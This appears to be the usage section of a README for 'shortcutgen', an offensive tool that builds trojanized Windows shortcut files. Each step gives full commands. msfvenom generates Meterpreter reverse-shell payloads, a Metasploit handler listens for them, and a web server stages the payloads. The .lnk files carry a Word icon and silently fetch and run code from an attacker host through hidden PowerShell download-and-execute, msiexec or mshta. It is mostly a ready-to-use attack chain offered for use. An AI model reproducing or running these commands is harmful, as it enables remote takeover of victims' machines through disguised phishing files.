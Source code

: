 ## Usage

### 0x00 - Trojanized Shortcuts

#### Windows

Generate the shell link while hosting a webserver to stage a PowerShell (`.ps1`) payload to trigger it. For a custom icon (`--icon`) you must either specify an index or an absolute path of the file/executable with a suffix of zero (e.g., `C:\path\to\file,0`) otherwise it won't generate and result an error. The working directory (`--workingdirectory`) will be executed if you placed a dropper that touches the disk unless you're staging it so be careful with this option.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-reflection -o payload.ps1

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; exploit"

$ sudo python -m http.server 80

$ shortcutgen -p lnk -c "powershell.exe" -a "-nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http[s]://<attacker_IP>/payload.ps1'))\"" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Generate the shell link while hosting a webserver to stage a MSI installer (`.msi`) payload to trigger it.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f msi -o payload.msi

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport <PORT>; exploit"

$ sudo python -m http.server 80

$ shortcutgen -p lnk -c "C:\Windows\System32\msiexec.exe" -a "/quiet /qn /i http://<attacker_IP>/payload.msi" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Generate the shell link then automatically hosting a staging HTA payload (`.hta`) using `metasploit-framework` exploit module `exploit/windows/misc/hta_server`.

```
$ sudo msfconsole -qx "use exploit/windows/misc/hta_server; set target 2; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvhost <server_IP>; set srvport <server_PORT> exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\mshta.exe" -a "http[s]://<attacker_IP>/payload.hta" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\Users\Public\" -o payload.lnk
```
